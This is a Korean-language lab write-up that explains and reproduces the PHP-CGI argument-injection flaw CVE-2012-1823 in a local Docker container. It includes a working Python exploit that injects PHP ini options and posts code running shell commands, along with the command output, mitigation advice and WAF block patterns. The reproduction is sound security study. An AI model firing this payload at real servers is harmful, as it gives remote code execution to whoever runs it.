

# CVE-2012-1823 (PHP-CGI Argument Injection) 취약점 분석 및 재현

## 1. 취약점 개요

### CVE 정보

* **CVE ID**: CVE-2012-1823
* **취약점 유형**: Argument Injection → Remote Code Execution (RCE)
* **영향 제품**: PHP-CGI


### 취약점 설명

CVE-2012-1823은 PHP-CGI 환경에서 발생하는 원격 코드 실행 취약점이다. PHP-CGI가 URL의 Query String을 처리하는 과정에서 특정 조건의 입력을 명령행 인자로 잘못 해석하는 문제가 존재한다.

공격자는 이 동작을 악용하여 PHP 실행 옵션을 임의로 주입할 수 있으며, 결과적으로 서버에서 원하는 PHP 코드를 실행하거나 운영체제 명령을 수행할 수 있다.

### 발생 원인

PHP-CGI는 일반적으로 웹 서버로부터 전달받은 요청을 처리한다. 그러나 Query String에 `=` 문자가 존재하지 않는 경우 일부 문자열을 명령행 옵션으로 인식하는 결함이 존재하였다.

예를 들어 다음과 같은 요청이 전달될 경우:

```text
/index.php?-s
```

PHP-CGI는 `-s`를 URL 파라미터가 아닌 PHP 실행 옵션으로 해석한다.

공격자는 이러한 특성을 이용하여 `-d` 옵션을 주입하고 PHP 설정을 런타임에 변경하여 악성 코드를 실행할 수 있다.

### 영향

취약한 서버는 원격 공격자의 요청만으로 임의 코드 실행이 가능하다.

성공 시 공격자는 웹 서버 권한으로 다음과 같은 행위를 수행할 수 있다.

* 시스템 명령 실행
* 웹 쉘 업로드
* 중요 파일 열람
* 추가 공격을 위한 권한 확장 시도

---

# 2. 실습 환경 구성

본 실습은 Docker를 이용하여 취약한 PHP-CGI 환경을 로컬에 구축한 후 진행하였다.

## Docker Compose 설정

### docker-compose.yml

```yaml
services:
  php:
    image: vulhub/php:5.4.1-cgi
    ports:
      - "8081:80"
```

포트 충돌을 방지하기 위해 호스트의 8081 포트를 사용하였다.

## 환경 구축 절차

### 1) 작업 디렉터리 생성

```powershell
mkdir CVE-2012-1823-test
cd CVE-2012-1823-test
```

### 2) docker-compose.yml 생성

```powershell
Set-Content -Path .\docker-compose.yml -Value @"
services:
  php:
    image: vulhub/php:5.4.1-cgi
    ports:
      - "8081:80"
"@
```

### 3) 컨테이너 실행

```powershell
docker-compose up -d
```

### 4) 테스트용 PHP 파일 생성

```powershell
docker-compose exec php sh -c "echo '<?php // empty' > /var/www/html/index.php"
```

실습 대상 환경에는 PHP 파일이 존재해야 PHP-CGI가 정상적으로 동작한다.

---

# 3. 취약 조건

CVE-2012-1823이 발생하기 위해서는 다음 조건이 충족되어야 한다.

## PHP-CGI 사용

PHP가 Apache Module(mod_php) 방식이 아닌 PHP-CGI 방식으로 실행되어야 한다.

## PHP 파일 존재

서버 내에 최소 하나 이상의 PHP 파일이 존재해야 한다.

예시:

```text
index.php
test.php
info.php
```

## 특수 Query String 사용

요청 URL에 `=` 문자가 없는 형태의 Query String이 포함되어야 한다.

예시:

```text
?-s
?-d
```

이 경우 PHP-CGI가 이를 명령행 인자로 해석할 수 있다.

---

# 4. 취약점 재현 과정

## 1단계: 서비스 확인

브라우저에서 다음 주소에 접속한다.

```text
http://localhost:8081/index.php
```

정상적으로 응답이 반환되는지 확인한다.

## 2단계: Argument Injection 확인

다음 URL에 접속한다.

```text
http://localhost:8081/index.php?-s
```

### 정상 환경

```text
빈 페이지 출력
```

### 취약 환경

PHP 소스 코드가 하이라이팅되어 출력된다.

이는 `-s` 옵션이 성공적으로 주입되었음을 의미한다.

---

## 3단계: PHP 설정 변경

다음 두 개의 옵션을 이용한다.

### allow_url_include

```text
allow_url_include=on
```

외부 URL 또는 스트림을 include 가능하도록 설정한다.

### auto_prepend_file

```text
auto_prepend_file=php://input
```

POST Body에 포함된 PHP 코드를 먼저 실행하도록 설정한다.

---

## 4단계: PoC 실행

POST Body에 PHP 코드를 삽입하여 서버에서 직접 실행시킨다.

---

# 5. Proof of Concept

## exploit.py

```python
import requests

url = "http://localhost:8081/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a%2f%2finput"

payload = "<?php system('id; uname -a'); die(); ?>"

try:
    print("[*] Sending exploit...")

    response = requests.post(
        url,
        data=payload,
        timeout=5
    )

    print("\n[+] Execution Result:")
    print(response.text)

except Exception as e:
    print(f"[-] Exploit failed: {e}")
```

해당 코드는 POST 요청을 통해 PHP 코드를 전달하고, 서버에서 운영체제 명령을 실행한 뒤 결과를 반환받는다.

---

# 6. 실행 결과 및 분석

## 실행 결과

```text
[*] Sending exploit...

[+] Execution Result:

uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux 4231e4e90a87 6.18.33.2-microsoft-standard-WSL2
#1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026
x86_64 GNU/Linux
```

## 결과 분석

실행 결과를 통해 다음 사실을 확인할 수 있다.

```text
uid=33(www-data)
```

이는 명령어가 웹 서버 프로세스 권한으로 실행되었음을 의미한다.

비록 root 권한은 아니지만 다음과 같은 행위가 가능하다.

* 웹 애플리케이션 파일 접근
* 서버 정보 수집
* 데이터 유출 시도
* 웹 쉘 업로드
* 추가 권한 상승 공격 준비

따라서 본 취약점은 실제 환경에서도 매우 높은 위험도를 가진다.

---

# 7. 대응 방안

## 1) PHP 버전 업그레이드

가장 효과적인 대응 방법은 패치가 적용된 버전으로 업그레이드하는 것이다.

패치 버전:

* PHP 5.3.12 이상
* PHP 5.4.2 이상

패치 이후에는 `-` 로 시작하는 비정상 입력이 적절히 필터링된다.

---

## 2) PHP-FPM 사용

PHP-CGI 대신 PHP-FPM을 사용하는 것이 권장된다.

장점:

* 보안성 향상
* 성능 향상
* 유지보수 용이

---

## 3) 웹 서버 필터링

웹 서버 또는 WAF에서 다음 패턴을 차단한다.

```text
?-d
?-s
```

또는 Query String이 `-`로 시작하는 요청 자체를 차단한다.

---

## 4) 보안 장비 활용

다음과 같은 보안 솔루션을 적용할 수 있다.

* WAF(Web Application Firewall)
* ModSecurity
* Reverse Proxy Filtering

이를 통해 알려진 공격 패턴을 사전에 차단할 수 있다.

---

# 8. 실습 과정에서 발생한 문제 및 해결

## 포트 충돌

### 문제

초기 설정에서 8080 포트를 사용하려 했으나 이전에 과제 수행 중에 시도했던 다른 서비스가 점유 중이었다.

```text
Port is already allocated
```

### 해결

Docker Compose 설정을 수정하여 8081 포트를 사용하였다.

---

## Python 라이브러리 인식 오류

### 문제

여러 Python 버전이 설치되어 있어 requests 라이브러리가 설치된 환경과 실제 실행 환경이 달랐다.

```text
ModuleNotFoundError
```

### 해결

라이브러리가 설치된 Python 인터프리터의 절대 경로를 직접 지정하여 실행하였다.

```powershell
C:\Users\user\...\python.exe exploit.py
```

---

## 인코딩 문제

### 문제

PowerShell에서 생성한 파일이 UTF-8이 아닌 인코딩으로 저장되어 오류가 발생하였다.

```text
SyntaxError: Non-UTF-8 code
```

### 해결

파일 생성 시 UTF-8 인코딩을 명시하였다.

```powershell
-Encoding UTF8
```

---

## PHP 파일 부재

### 문제

Docker 이미지 내부에 실행 가능한 PHP 파일이 존재하지 않아 공격이 실패하였다.

```text
404 Not Found
```

또는 Apache 기본 페이지가 출력되었다.

### 해결

컨테이너 내부에 빈 PHP 파일을 생성하였다.

```powershell
docker-compose exec php sh -c "echo '<?php // empty' > /var/www/html/index.php"
```

이후 PHP-CGI가 정상적으로 동작하며 취약점 재현에 성공하였다.

---

# 9. 결론

CVE-2012-1823은 PHP-CGI의 Query String 처리 과정에서 발생하는 대표적인 Argument Injection 취약점이다.

실습에서 Docker 환경에서 취약한 PHP 5.4.1-CGI 버전을 구성하고, Query String을 이용한 옵션 주입을 통해 원격 코드 실행이 가능함을 확인하였다. 또한 PoC를 통해 웹 서버 권한으로 운영체제 명령이 수행되는 것을 검증하였다.

실습을 통해 웹 애플리케이션의 실행 구조와 CGI 방식의 동작 원리를 이해할 수 있었으며, 단순한 입력 검증 실패가 얼마나 심각한 보안 문제로 이어질 수 있는지 확인할 수 있었다. 최신 버전 유지와 안전한 실행 환경 구성의 중요성을 다시 한번 확인할 수 있는 사례였다.


